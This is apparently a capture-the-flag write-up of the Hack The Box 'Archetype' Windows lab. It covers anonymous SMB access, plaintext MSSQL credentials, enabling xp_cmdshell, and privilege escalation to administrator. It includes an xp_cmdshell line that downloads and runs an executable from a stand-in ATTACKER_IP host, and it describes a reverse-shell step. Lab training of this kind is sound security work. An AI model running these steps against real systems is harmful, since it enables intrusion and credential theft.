

# Archetype

<p align="center">
  
</p>

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Tasks](#tasks)
- [User Flag Walkthrough](#user-flag-walkthrough)
- [Root Flag Walkthrough](#root-flag-walkthrough)
- [Lab Insights](#lab-insights)
- [Attack Timeline](#attack-timeline)

# Context

Lab link: [https://app.hackthebox.com/machines/Archetype](https://app.hackthebox.com/machines/Archetype)

Suggested tools: `nmap`, `smbclient`, `impacket-mssqlclient`, `xp_cmdshell`, `nc`, `winPEASx64`, `evil-winrm`

# Scenario

Archetype is a very easy Windows machine that features a misconfigured Microsoft SQL server, exposed SMB shares and sensitive data exposure. An exposed SMB share can be accessed without authentication in which sensitive files can be found containing plaintext credentials. These credentials can be used to authenticate to MSSQL as the service account user through Impacket's `mssqlclient` tool. Command execution can then be achieved by enabling `xp_cmdshell` after which a reverse shell can be uploaded and triggered to get access to the host. Finally, `WinPeas` can be used to search for vulnerabilities which reveals a Powershell history file containing the password needed to achieve full privilege escalation.

# Tasks

**Q1**- Which TCP port is hosting a database server?

Answer: `1433`

Reason: An `nmap`  TCP SYN scan against `10.129.6.136` reveals five open ports: `135` (MSRPC), `139` (NetBIOS), `445` (Server Message Block (SMB)), `1433` (Microsoft SQL Server (MSSQL)), and `5985` (Windows Remote Management (WinRM)). The host identifies itself as `ARCHETYPE`, running Windows Server 2019 Standard build `17763`. The MSSQL instance is version `14.00.1000.00`, corresponding to SQL Server 2017 Release to Manufacturing (RTM) with no post-RTM patches applied, making it a candidate for known unpatched vulnerabilities (T1190).

The presence of both SMB on `445` and WinRM on `5985` broadens the attack surface considerably. SMB may allow unauthenticated share enumeration, potentially exposing sensitive files or credentials. WinRM, if valid credentials are obtained, would allow direct remote PowerShell (T1059.001) sessions without requiring Remote Desktop Protocol (RDP). The unpatched MSSQL service is the most critical finding: RTM-level SQL Server 2017 instances are known to support stored procedure abuse such as `xp_cmdshell` for operating system (OS) command execution if the service account is sufficiently privileged (T1505.001).

```bash
nmap -v -sC -sV 10.129.6.136

1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-info: 
|   10.129.6.136:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.6.136:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-05-30T00:47:51
| Not valid after:  2056-05-30T00:47:51
| MD5:     c8ad 3a89 f3a5 4c0f 288f 7c22 5d3f dea2
| SHA-1:   e56e 761f 696a 304f 2762 db80 17a7 8464 ef45 51cb
|_SHA-256: 6fc7 5289 ad21 c551 37d2 568e 6acb 3854 54c9 74b3 8634 0c66 51a9 972d 17bb ed48
|_ssl-date: 2026-05-30T00:56:09+00:00; 0s from scanner time.
```

**Q2**- What is the name of the non-Administrative share available over SMB?

Answer: `backups`

Reason: Running `smbclient -L //10.129.6.136` without credentials exploits the guest/null session access the server permits, listing all available SMB shares without authentication (T1135). Four shares were returned: `ADMIN$`, `C$`, and `IPC$` are default Windows administrative shares that require elevated privileges to access. The fourth share, `backups`, stands out as a manually created, non-administrative share with no comment attached.

The `backups` share is the immediate priority. Manually created shares with generic names like `backups` frequently contain configuration files, scripts, or database dumps left behind by administrators, any of which could contain plaintext credentials or connection strings (T1552.001).

```bash
smbclient -L //10.129.6.136

Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.6.136 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

**Q3**- What is the password identified in the file on the SMB share?

Answer: `M3g4c0rp123`

Reason: Connecting to the `backups` share anonymously using `smbclient -N //10.129.6.136/backups` confirms null session read access (T1078.001). The share contains a single file, `prod.dtsConfig`, a Data Transformation Services (DTS) configuration file used by SQL Server Integration Services (SSIS) to store package connection settings. Downloading and reading the file exposes a plaintext connection string inside a `<ConfiguredValue>` tag, revealing the password `M3g4c0rp123` associated with the account `ARCHETYPE\sql_svc` (T1552.001).

Storing credentials in SSIS `dtsConfig` files is a well-known operational security (OPSEC) failure. These files are plain XML with no native encryption, meaning any user with read access to the share retrieves valid credentials immediately. The account `ARCHETYPE\sql_svc` is a SQL Server service account, which commonly runs with elevated database privileges and may have `xp_cmdshell` or `sysadmin` rights, making this a high-value credential find.

`.dtsConfig` files are configuration files for SSIS (SQL Server Integration Services) — Microsoft's ETL (Extract, Transform, Load) tool used to automate data pipelines between databases and other sources. They store connection strings, credentials,
and package settings in plaintext XML, which is exactly why finding one on an exposed share is a goldmine — developers often leave database passwords in them and forget they're readable.

```bash
smbclient -N //10.129.6.136/backups

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                5056511 blocks of size 4096. 2540118 blocks available
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (4.4 KiloBytes/sec) (average 4.4 KiloBytes/sec)
smb: \> exit
                                                                                                         
┌──(kali㉿kali)-[~/ctf_stuff/offsec/htb_archetype]
└─$ ls
nmap_archetype.txt  prod.dtsConfig
                                                                                                         
┌──(kali㉿kali)-[~/ctf_stuff/offsec/htb_archetype]
└─$ cat prod.dtsConfig       
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>  
```

**Q4**- What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

Answer: `mssqlclient.py`

Reason: With credentials for `ARCHETYPE\sql_svc` in hand, the Impacket toolkit's `mssqlclient.py` script is used to establish an authenticated connection to the MSSQL instance. Impacket is an open-source collection of Python classes for working with network protocols, and `mssqlclient.py` specifically handles MSSQL authentication, supporting both Windows (NTLM) and SQL Server native login modes (T1078).

```bash
python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.6.136 -windows-auth
```

**Q5**- What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

Answer: `xp_cmdshell`

Reason:  `xp_cmdshell` is a well-documented extended stored procedure (ESP) built into MSSQL that spawns a Windows Command Shell (`cmd.exe`) subprocess and returns output as rows, effectively giving the database user operating system (OS) command execution (T1059.003). It is disabled by default in SQL Server 2005 and later, but a `sysadmin`-level account can re-enable it through the surface area configuration.

Since `sql_svc` is likely a `sysadmin`, enabling and invoking `xp_cmdshell` is the next step to confirm OS-level code execution from within the authenticated MSSQL session (T1505.001).

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```

**Q6**- What script can be used in order to search possible paths to escalate privileges on Windows hosts?

Answer: `winpeas`

Reason: WinPEAS (Windows Privilege Escalation Awesome Script) is a post-exploitation enumeration script from the PEASS-ng suite that automates the discovery of local privilege escalation (LPE) vectors on Windows hosts (T1069, T1082). It checks for misconfigured services, weak file permissions, stored credentials, unquoted service paths, scheduled tasks, and more, returning color-coded output ranked by severity.

With an `xp_cmdshell` session as `ARCHETYPE\sql_svc`, the typical next step is downloading `winpeas.exe` from the attacker machine to the target via a Python HTTP server, then executing it to identify a path to `SYSTEM` or local administrator.

```bash
python3 -m http.server 80
```

```sql
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest http://ATTACKER_IP/winpeas.exe -OutFile C:\Users\sql_svc\Downloads\winpeas.exe"';
EXEC xp_cmdshell 'C:\Users\sql_svc\Downloads\winpeas.exe';
```

Q7- What file contains the administrator's password?

Answer: `ConsoleHost_history.txt`

Reason: WinPEAS flags `ConsoleHost_history.txt`, the PowerShell command history file stored at `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`, as a credential exposure vector (T1552.001). `PSReadLine` writes every interactively typed PowerShell command to this file automatically, and administrators frequently forget it exists. Reading the file reveals a previously executed `net.exe use` command with the administrator password supplied in plaintext directly on the command line, a classic OPSEC failure where credentials passed as arguments are captured verbatim in shell history.

This is a direct path to administrator access. With the plaintext administrator password recovered, `evil-winrm` can be used against the open WinRM port `5985` identified during the initial Nmap scan to establish a privileged remote session (T1021.006).

```powershell
PS C:\Users\sql_svc\Downloads> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

# User Flag Walkthrough

1. Ran an Nmap network mapper (Nmap) version and script scan against `10.129.6.136`, revealing five open ports: `135` (MSRPC), `139` (NetBIOS), `445` (SMB), `1433` (MSSQL Server 2017 RTM), and `5985` (WinRM).
2. Listed SMB shares anonymously using `smbclient -L //10.129.6.136`, which returned three default administrative shares and one non-administrative share: `backups`.
3. Connected to the `backups` share with `smbclient -N //10.129.6.136/backups`, found `prod.dtsConfig`, and downloaded it with `get`.
4. Read `prod.dtsConfig` locally, which contained a plaintext MSSQL connection string with credentials `ARCHETYPE\sql_svc : M3g4c0rp123`.
5. Authenticated to the MSSQL server using `impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.6.136 -windows-auth`.
6. Enabled `xp_cmdshell` via `sp_configure` to achieve OS command execution, confirmed with `EXEC xp_cmdshell 'whoami'` returning `archetype\sql_svc`.
7. Started a netcat listener on port `443` and a Python HTTP server on port `80`, then wrote a PowerShell TCP reverse shell payload to `shell.ps1`.
8. Used `xp_cmdshell` to pull `shell.ps1` down to the target via `Invoke-WebRequest`, then executed it, catching a reverse shell as `archetype\sql_svc`.
9. Navigated to `C:\Users\sql_svc\Desktop` and read the user flag.

# Root Flag Walkthrough

1. Downloaded `winPEASx64.exe` from Kali to the target via `Invoke-WebRequest` and executed it from `C:\Users\sql_svc\Downloads`, producing a full privilege escalation enumeration of the host.
2. In the WinPEAS output, identified a PowerShell history file at `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.
3. Read the history file, which contained a previously run `net.exe use` command mapping the `backups` share as administrator, with the password `MEGACORP_4dm1n!!` in plaintext (T1552.001).
4. Used `evil-winrm` to authenticate to the WinRM service on port `5985` as administrator with the recovered password, obtaining a full administrative PowerShell session (T1021.006).
5. Navigated to `C:\Users\Administrator\Desktop` and read the root flag.

# Lab Insights

- Anonymous SMB shares are a credential goldmine: misconfigured shares expose config files that developers never intended to be public.
- `dtsConfig` files store plaintext credentials: SSIS configuration files routinely contain database connection strings with passwords in cleartext (T1552.001).
- MSSQL `xp_cmdshell` enables instant remote code execution (RCE): a service account with `sysadmin` rights can enable it without any additional exploit (T1505.001).
- PowerShell history persists credentials: any command run with a password inline gets written to `ConsoleHost_history.txt` and survives reboots (T1552.001).
- WinRM combined with recovered credentials produces a clean admin shell: if port `5985` is open and credentials are available, `evil-winrm` provides a full session without needing a payload (T1021.006).
- Chaining low-privilege misconfigs leads to full compromise: no single vulnerability here was critical; the path to root was entirely credential reuse and poor operational security (OPSEC).

# Attack Timeline


